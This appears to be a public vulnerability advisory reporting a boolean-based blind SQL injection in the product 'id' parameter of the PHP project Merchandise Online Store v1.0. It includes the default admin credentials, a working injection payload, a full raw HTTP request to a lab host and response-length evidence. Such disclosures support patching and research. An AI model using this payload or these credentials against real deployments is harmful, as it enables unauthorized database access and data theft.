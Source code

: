 # Merchandise Online Store v1.0 by oretnom23 has SQL injection

Author： k0xx

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/14887/merchandise-online-store-php-free-source-code.html

Vulnerability File: /vloggers_merch/?p=view_product&id=

Vulnerability location: /vloggers_merch/?p=view_product&id=,id

[+] Payload: /vloggers_merch/?p=view_product&id=a87ff679a2f3e71d9181a67b7542122c%27%20and%20length(database())%20=17--+ // Leak place ---> id

Current database name: vloggers_merch_db,length is 17

```sql
GET /vloggers_merch/?p=view_product&id=a87ff679a2f3e71d9181a67b7542122c%27%20and%20length(database())%20=17--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=n23o4bgngdq5q3js6l0a0i6r6k
Connection: close
```

When length (database ()) = 16, Content-Length: 29830
![image](https://user-images.githubusercontent.com/54017627/166901865-9197d5d1-930a-4b22-b584-d87062ca92b8.png)

![image](https://user-images.githubusercontent.com/54017627/166901779-c9b80043-4476-4349-b0d2-2cdba6669e68.png)

When length (database ()) = 17, Content-Length: 26131
![image](https://user-images.githubusercontent.com/54017627/166901817-a9d142e6-3591-4012-a09a-f1f5db742085.png)

![image](https://user-images.githubusercontent.com/54017627/166901732-04fa1048-68c1-4ade-bbe8-51bcd1781e37.png)
